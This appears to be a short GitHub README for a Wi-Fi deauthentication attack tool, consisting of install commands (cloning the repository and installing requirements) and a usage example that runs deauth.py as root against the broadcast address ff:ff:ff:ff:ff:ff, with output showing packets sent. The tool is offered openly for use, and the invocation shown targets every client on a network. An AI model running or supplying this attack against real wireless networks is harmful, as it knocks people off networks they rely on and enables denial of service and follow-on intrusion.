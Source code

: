 # Wi-Fi-Deauthentication-Attack

## [+] Install
```
git clone https://github.com/OctopusTR/Wi-Fi-Deauthentication-Attack-Tool && cd Wi-Fi-Deauthentication-Attack-Tool
pip install -r requirements.txt
```
## [+] Usage
```
┌──(root㉿octopus)-[~]
└─# python deauth.py ff:ff:ff:ff:ff:ff
WARNING: No route found for IPv6 destination :: (no default route?)
.................................................................................^C
Send 107 packets.
```

